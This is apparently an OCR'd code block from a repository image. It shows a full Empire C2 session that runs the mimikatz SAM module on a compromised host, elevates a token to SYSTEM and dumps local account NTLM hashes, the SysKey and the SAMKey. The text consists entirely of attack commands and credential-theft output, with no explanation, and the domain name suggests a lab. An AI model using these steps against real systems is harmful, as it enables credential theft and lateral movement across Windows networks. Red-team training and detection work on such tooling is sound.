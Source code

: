 ```

Options:

  Name  Required    Value                     Description
  ----  --------    -------                   -----------
  Agent True        Y298VW3B                  Agent to run module on.                 

(Empire: powershell/credentials/mimikatz/sam) > execute
[*] Tasked Y298VW3B to run TASK_CMD_JOB
[*] Agent Y298VW3B tasked with task ID 3
[*] Tasked agent Y298VW3B to run module powershell/credentials/mimikatz/sam
(Empire: powershell/credentials/mimikatz/sam) > Job started: DV6AHB
Hostname: HR001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

512	{0;000003e7} 1 D 36238     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;000b8e62} 1 F 83841234  	SHIRE\nmartha	S-1-5-21-2511471446-1103646877-3980648787-1106	(12g,23p)	Primary
 * Thread Token  : {0;000003e7} 1 D 85913723  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(powershell) # lsadump::sam
Domain : HR001
SysKey : c7bc124448d3851819e68f8c2c199c2f
Local SID : S-1-5-21-3594478387-3513325568-2589039918

SAMKey : 8b66c564e175f6a7c0c40bc70f65144f

RID  : 000001f4 (500)
User : Administrator

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 63a935cccb1d1be6c4011ec2a68f1a95

RID  : 000003e9 (1001)
User : Nora
  Hash NTLM: f9558f5eff6314996c96ec2c3800d3f0

mimikatz(powershell) # token::revert
 * Process Token : {0;000b8e62} 1 F 83841234  	SHIRE\nmartha	S-1-5-21-2511471446-1103646877-3980648787-1106	(12g,23p)	Primary
 * Thread Token  : no token


```